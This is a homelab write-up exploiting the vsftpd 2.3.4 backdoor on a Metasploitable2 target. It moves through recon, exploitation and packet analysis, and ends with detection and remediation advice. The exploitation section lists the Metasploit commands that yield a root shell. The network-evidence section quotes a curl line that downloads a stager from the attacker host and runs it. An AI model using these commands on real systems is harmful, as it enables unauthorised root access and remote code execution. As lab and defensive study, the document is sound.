



# Investigation: VSFTPD 2.3.4 Backdoor Exploitation on Metasploitable2

## Summary

During a scheduled assessment of the homelab environment, a full attack chain was executed and documented against a Metasploitable2 target: reconnaissance identified an outdated, backdoored FTP service; the finding was verified against public exploit data; the vulnerability was then exploited to obtain unauthenticated root access. Network traffic was captured throughout to analyze the attack from a defender's perspective and identify the boundaries of network-level visibility.

## Environment

| Role | System | IP |
|---|---|---|
| Attacker | Kali Linux | 192.168.1.118 |
| Target | Metasploitable2 | 192.168.1.110 |

## 1. Reconnaissance

An `nmap` version/script scan was run against the full port range of the target:

```
nmap -sV -sC -p- 192.168.1.110
```

The scan returned an unusually large attack surface typical of a deliberately vulnerable host. The standout finding was port 21:

```
21/tcp  open  ftp  vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
```

`vsftpd 2.3.4` is a version with a publicly known, intentionally planted backdoor (distributed via a compromised source tarball in 2011). Anonymous FTP access being enabled further widened the exposed attack surface.

Other notable findings (not pursued further in this write-up, but worth flagging in a real assessment): an open bind shell reported directly by nmap on port 1524, `distccd` on port 3632, and an outdated UnrealIRCd on port 6667 — both also associated with known remote code execution issues.

## 2. Verification

The vsftpd version was cross-referenced against Exploit-DB using `searchsploit`:

```
searchsploit vsftpd 2.3.4
```

This returned a confirmed match: **VSFTPD v2.3.4 – Backdoor Command Execution** (Exploit-DB #49757), confirming a working, publicly documented exploit exists for the exact version identified during recon.

## 3. Exploitation

The vulnerability was exploited using the Metasploit Framework:

```
msfconsole
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.1.110
set LHOST 192.168.1.118
run
```

The exploit succeeded, dropping into a root-level shell:

```
id
uid=0(root) gid=0(root)
```

No authentication, credentials, or user interaction on the target were required. A single malformed FTP command was sufficient to gain full root access.

## 4. Network Evidence

Traffic was captured throughout with `tcpdump` and analyzed in Wireshark.

**a) Exploit trigger.** The vsftpd backdoor is triggered by a smiley-face sequence (`:)`) embedded in the FTP `USER` command. Following the TCP stream of the port 21 session shows this malformed username sent as an otherwise ordinary-looking FTP login attempt.



**b) Backdoor shell opens.** Approximately immediately after the trigger, a new TCP connection is established from the attacker to the target on **port 6200** — the port the backdoor binds a root shell to.



**c) Payload staging.** Following that stream shows the shell being used to confirm access and stage a second payload:

```
id
uid=0(root) gid=0(root)

curl -so ./HkhHdJmy http://192.168.1.118:8080/...;chmod +x ./HkhHdJmy;./HkhHdJmy&
```

This shows the raw port 6200 backdoor shell being used to pull down and execute a Meterpreter stager from the attacker host, upgrading the initial access into a full Meterpreter session.



**d) Visibility limitation.** Once the Meterpreter session was established, further commands (e.g. a follow-up `whoami`) were issued over an encrypted channel — Meterpreter's C2 traffic is TLS-encrypted by default. The capture shows the TLS handshake and encrypted application data on the session's port, but not the plaintext commands or output. This is a meaningful finding in its own right: **network capture alone confirmed the exploitation stage and the presence of a follow-on session, but could not reveal what the attacker did after that point.**

## 5. Detection & Remediation

If this environment reflected production infrastructure, the following would materially reduce or detect this attack path:

- **Patch/replace vsftpd** — this exact backdoor was removed from the legitimate vsftpd distribution over a decade ago; any modern, maintained version is unaffected.
- **Disable anonymous FTP** and restrict FTP to authenticated, least-privilege access only.
- **Network IDS signature** — the `:)` trigger string in an FTP `USER` command is a well-known, signature-able pattern (Suricata/Snort rulesets already include detections for this).
- **Egress filtering** — the payload-staging `curl` request to an external host on a non-standard port is unusual outbound behavior that could be flagged or blocked by egress controls.
- **Host-based visibility** — given that post-exploitation Meterpreter traffic is encrypted, detecting *attacker actions after initial access* requires host-level telemetry (EDR, process auditing, Sysmon) rather than network monitoring alone. This reinforces that network and host detection are complementary, not substitutes for one another.

## Tools Used

`nmap` · `searchsploit` · `msfconsole` (Metasploit Framework) · `tcpdump` · `Wireshark`
